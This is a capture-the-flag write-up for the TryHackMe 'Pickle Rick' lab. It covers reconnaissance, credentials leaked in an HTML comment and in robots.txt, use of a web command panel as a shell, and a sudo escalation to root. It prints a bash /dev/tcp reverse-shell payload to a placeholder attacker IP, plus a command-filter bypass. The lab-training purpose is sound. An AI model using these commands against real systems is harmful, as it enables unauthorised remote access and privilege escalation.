




# Pickle Rick — Write-up

---

## Overview

- Platform: TryHackMe  
- Difficulty: Easy  
- Objective: Retrieve all three ingredients
 

---

## Reconnaissance

Started with an Nmap scan to identify open services:

```bash
nmap -sC -sV -Pn -T4 10.10.13.30
```

### Results
- Port 22 → SSH  
- Port 80 → HTTP  

SSH did not allow password authentication, so enumeration focused on the web service.

---

## Web Enumeration

Accessing the web server showed a static page with no visible functionality.

Inspecting the page source revealed a username hidden inside an HTML comment.



---

## Directory Enumeration

Performed directory brute-forcing using Gobuster:

```bash
gobuster dir -u http://10.10.13.30 -w /usr/share/wordlists/dirb/common.txt
```

### Discovered Endpoints
- `/robots.txt`  
- `/login.php`  

---

## robots.txt Analysis

The `robots.txt` file contained a non-standard string instead of typical disallow rules.

This string appeared to be a credential, likely a password.

Attempting SSH login failed, so the credential was tested on the web login page.

---

## Authentication

Navigated to `/login.php` and used:
- Username → obtained from HTML source  
- Password → obtained from robots.txt  

Login was successful.



---

## Command Execution

After authentication, a command execution panel was available.



Testing with a simple command:

```bash
id
```

Confirmed that system commands could be executed, effectively providing a web shell.

---

## File Enumeration

Listed directory contents:

```bash
ls
```

Some commands like `cat` were restricted, so alternative methods were used:

```bash
grep "" filename
```

### First Ingredient

Located in one of the accessible files in the current directory.

---

## User Directory Exploration

Moved to the user directory:

```bash
cd /home/rick
ls
```

### Second Ingredient

Found inside Rick’s home directory.

---

## Reverse Shell (Optional)

To improve interaction, a reverse shell was established.

Listener on attacker machine:

```bash
nc -lvnp 8888
```

Payload executed on target:

```bash
bash -i >& /dev/tcp/<attacker-ip>/8888 0>&1
```

This provided a more stable shell environment.

---

## Privilege Escalation

Checked sudo permissions:

```bash
sudo -l
```

### Finding

The `www-data` user was allowed to execute any command as root without a password.

---

## Root Access

Used sudo to gain root shell:

```bash
sudo /bin/bash
```

---

## Final Ingredient

Navigated the system and retrieved the final ingredient file.

---

## Conclusion

- HTML comments exposed valid credentials  
- robots.txt contained sensitive information  
- Web command execution led to initial access  
- Misconfigured sudo permissions allowed immediate privilege escalation  

---
